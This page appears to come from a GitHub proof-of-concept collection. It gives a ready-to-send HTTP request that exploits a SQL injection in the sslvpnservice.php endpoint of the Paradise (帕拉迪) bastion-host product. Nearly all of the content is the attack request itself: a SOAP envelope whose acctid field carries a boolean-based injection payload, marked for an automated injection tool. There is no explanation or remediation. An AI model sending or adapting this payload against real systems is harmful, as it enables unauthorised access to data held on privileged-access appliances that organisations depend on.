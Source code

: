 # pld_sslvpnservice.php_sqli

product: 帕拉迪堡垒机
```
POST /sslvpnservice.php HTTP/1.1
Host: xxxx
Connection: close
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML,
like Gecko) Chrome/89.0.4389.90 Safari/537.36
Cookie: PHPSESSID=8fdj8pske96v2qdg13g36u8872; think_language=zh-cn
Content-Type: text/xml
Content-Length: 580

<?xml version="1.0" encoding="ISO-8859-1"?>
<SOAP-ENV:Envelope SOAPENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAPENV="http://schemas.xmlsoap.org/soap/envelope/"
xmlns:xsd="http://www.w3.org/2001/XMLSchema"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:SOAPENC="http://schemas.xmlsoap.org/soap/encoding/">
<SOAP-ENV:Body>
<getAccountDetail>
<data>
{"token":"4e28b56969e59a18d72d0050a47f812a","user":"superman","acctid":"-1' or
1=if(1=1*,1,2) limit 0,1 -- a","index":"1"}</data>
</getAccountDetail>
</SOAP-ENV:Body></SOAP-ENV:Envelope>
```

from: https://github.com/wy876/POC/blob/main/%E5%B8%95%E6%8B%89%E8%BF%AA%E5%A0%A1%E5%9E%92%E6%9C%BA/%E5%B8%95%E6%8B%89%E8%BF%AA%E5%A0%A1%E5%9E%92%E6%9C%BAsslvpnservice.php%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md
